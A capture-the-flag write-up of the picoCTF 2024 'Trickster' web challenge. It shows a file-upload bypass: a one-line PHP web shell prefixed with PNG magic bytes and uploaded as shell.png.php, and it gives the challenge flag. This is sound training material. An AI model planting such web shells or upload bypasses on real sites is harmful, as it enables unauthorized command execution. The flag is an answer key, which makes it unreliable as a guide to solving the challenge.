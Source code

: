 # Trickster
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2024, browser_webshell_solvable

Description: 
I found a web app that can help process images: PNG images only!

Hints: None
```
## Overview
### When accessing the web, we can see a page that allows us to upload png files
![alt text](/CTF/picoCTF/Static/Images/Trickster/image1.png)  
* I tried uploading an image file, and this is what I got 

![alt text](/CTF/picoCTF/Static/Images/Trickster/image2.png)
## Solution
**Step1:** Recon  
* Usually when I encounter a website like this, I immediately think of the existence of a file upload vulnerability  
* Those websites do not return the path to the uploaded file for us, now let's try to find more data  
* I tried accessing /robots.txt and this is the result I got

![alt text](/CTF/picoCTF/Static/Images/Trickster/image3.png)  
* We can use /uploads/x.png to view images  
* i also tried accessing /instructions.txt to see what was there and this is what i got  
```text
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
* It gives us some information that the web will check the .png extension and will check the first few hex bits of the file to see if it is PNG or not.  
* The administrator will store the files and take the necessary steps to read the files => this is indeed a file upload vulnerability  
**Step2:** Exploit  
* We need to think of ways to bypass web authentication  
* First we will create a shell.php file containing malicious code   
```PHP
<?php echo system($_GET["cmd"]) ?>
```
* Then we can add the PNG at the beginning, so if the web checks the first few hex bits it won't be revealed.  
```PHP
PNG<?php echo system($_GET["cmd"]) ?>
```
* Now turn on burpsuite and catch requests  
* Rename the file to shell.png.php and then upload it  
* We have successfully defrauded the website, now let's use OS commands to get the flag  
## Flag
`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}`